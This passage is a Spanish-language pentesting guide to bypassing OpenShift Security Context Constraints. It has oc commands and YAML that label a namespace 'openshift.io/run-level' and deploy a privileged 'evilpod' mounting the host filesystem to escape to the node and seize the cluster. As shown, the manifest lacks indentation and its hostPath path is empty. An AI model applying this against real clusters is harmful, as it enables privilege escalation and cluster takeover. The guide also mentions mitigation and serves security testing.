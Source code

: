 # Openshift - SCC bypass

**El autor original de esta página es** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces privilegiados

Por defecto, SCC no se aplica en los siguientes proyectos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Si despliegas pods dentro de uno de esos namespaces, no se aplicará SCC, lo que permitirá el despliegue de pods privilegiados o el montaje del sistema de archivos del host.

## Etiqueta de Namespace

Hay una manera de deshabilitar la aplicación de SCC en tu pod según la documentación de RedHat. Necesitarás tener al menos uno de los siguientes permisos:

- Crear un Namespace y Crear un Pod en este Namespace
- Editar un Namespace y Crear un Pod en este Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
La etiqueta específica `openshift.io/run-level` permite a los usuarios eludir los SCC para aplicaciones. Según la documentación de RedHat, cuando se utiliza esta etiqueta, no se aplican SCC a todos los pods dentro de ese espacio de nombres, eliminando efectivamente cualquier restricción.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Agregar Etiqueta

Para agregar la etiqueta en su espacio de nombres:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para crear un namespace con la etiqueta a través de un archivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ahora, todos los nuevos pods creados en el namespace no deberían tener ningún SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En ausencia de SCC, no hay restricciones en la definición de tu pod. Esto significa que se puede crear fácilmente un pod malicioso para escapar al sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ahora, se ha vuelto más fácil escalar privilegios para acceder al sistema host y, posteriormente, apoderarse de todo el clúster, obteniendo privilegios de 'cluster-admin'. Busca la parte de **Node-Post Exploitation** en la siguiente página:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Etiquetas personalizadas

Además, según la configuración objetivo, se pueden utilizar algunas etiquetas / anotaciones personalizadas de la misma manera que en el escenario de ataque anterior. Incluso si no están destinadas a ello, las etiquetas podrían usarse para otorgar permisos, restringir o no un recurso específico.

Intenta buscar etiquetas personalizadas si puedes leer algunos recursos. Aquí hay una lista de recursos interesantes:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Listar todos los espacios de nombres privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

En OpenShift, como se demostró anteriormente, tener permiso para desplegar un pod en un namespace con la etiqueta `openshift.io/run-level` puede llevar a una toma de control directa del clúster. Desde la perspectiva de la configuración del clúster, esta funcionalidad **no se puede desactivar**, ya que es inherente al diseño de OpenShift.

Sin embargo, medidas de mitigación como **Open Policy Agent GateKeeper** pueden prevenir que los usuarios establezcan esta etiqueta.

Para eludir las reglas de GateKeeper y establecer esta etiqueta para ejecutar una toma de control del clúster, **los atacantes necesitarían identificar métodos alternativos.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
